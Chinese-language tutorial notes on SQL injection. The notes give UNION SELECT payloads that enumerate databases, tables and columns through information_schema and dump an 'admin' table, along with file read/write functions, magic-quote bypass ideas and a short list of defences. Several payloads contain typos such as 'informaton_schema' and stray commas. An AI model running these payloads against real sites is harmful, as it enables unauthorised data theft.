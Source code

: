 -   高权限注入
    -   常规查询
    -   跨库查询
    -   文件读写
        -   存在魔术引号：编码或宽字节绕过
        -   不存在魔术引号
-   相关防注入
    -   自带防御：魔术引号
    -   内置函数：int等
    -   自定义关键字：select
    -   WAF防护软件：安全狗，宝塔等。

------

## 高权限注入及低权限注入

### 跨库查询及相应思路

​	information_schema表特征，记录库名，表名列名对应表

1.  获取所有数据库名

    `id=-1 union select 1,group_concat(schema_name),3, from informaton_schema.schema`

    假设得到数据库ssqq

2.  获取指定ssqq数据库下表名信息

    `id=-1 union select 1,group_concat(table_name),3, from informaton_schema.tables where table_schema='ssqq'`

    假设得到表admin

3.   获取ssqq数据库下表admin的段名信息

     `id=-1 union select 1,group_concat(column_name),3, from informaton_schema.column where table_name='admin'`

      因为admin比较常见，所以上述查询语句可能查询出其他数据库下的admin表，那么加一句：

     `id=-1 union select 1,group_concat(column_name),3, from informaton_schema.column where table_name='admin' and table_schema='ssqq'`

4.  获取数据

    `union select 1 u,p from ssqq.admin`



### 文件读写操作

load_file()：读取函数

into outfile或into dumpfile：写入函数

### 路径获取常见方法

报错显示，遗留文件，漏洞报错，平台报错文件，爆破等。
